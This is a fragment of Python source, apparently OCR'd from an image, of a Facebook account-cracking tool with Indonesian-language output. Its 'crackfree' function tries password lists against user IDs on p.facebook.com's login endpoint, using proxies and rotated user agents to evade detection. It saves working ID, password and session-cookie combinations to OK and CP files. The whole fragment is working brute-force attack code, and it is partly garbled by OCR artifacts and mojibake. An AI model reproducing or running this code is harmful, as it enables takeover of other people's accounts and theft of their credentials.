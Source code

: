 			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
#------------------[ METHODE-MBASIC-2 ]-------------------#
def crackfree(idf,pwv):
	global loop,ok,cp
	sys.stdout.write(f"\râ¤ï¸ {P}[{asu}Mbasic{P}]{P}[{b}{loop}{P}/{p}{len(id)}{P}]â€”{P}[{H}{ok}{P}]â€”{P}[{k}{cp}{x}]â€”[{m}{'{:.0%}'.format(loop/float(len(id)))}{P}]  "),
	sys.stdout.flush()
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	for pw in pwv:
		try:
			ses.headers.update({"Host":"p.facebook.com",'cache-control': 'max-age=0','sec-ch-ua-mobile': '?1',"upgrade-insecure-requests":"1","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-dest":"empty","sec-fetch-dest":"document","referer":"https://p.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})
			p = ses.get('https://p.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'
			heade={"Host":"p.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://p.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":"Mozilla/5.0 (Linux; Android 12; SAMSUNG SM-G780G) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/16.0 Chrome/92.0.4515.166 Mobile Safari/537.36","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://p.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"}
			po = ses.post('https://p.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)
			if "checkpoint" in po.cookies.get_dict().keys():
				cetak(nel('  [red]     ðŸ˜­ MOHON MAAF ANDA BELUM BERUNTUNG MOHON BERSABAR ðŸ˜­[red]'))
				print(f'\r{K}>> {idf}|{pw}{N}')     
				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
				akun.append(idf+'|'+pw)
				cp+=1
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=po.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				cetak(nel('[purple]      ðŸ˜­HELLO THIS MUSLIM-XD ðŸ¤£[purple]')) 
				print(f'\r{H}>> {idf}|{pw}|{kuki}{N}')
				open('OK/'+okc,'a').write(idf+'|'+pw+'\n')
				cek_apk(session,coki)
				break
				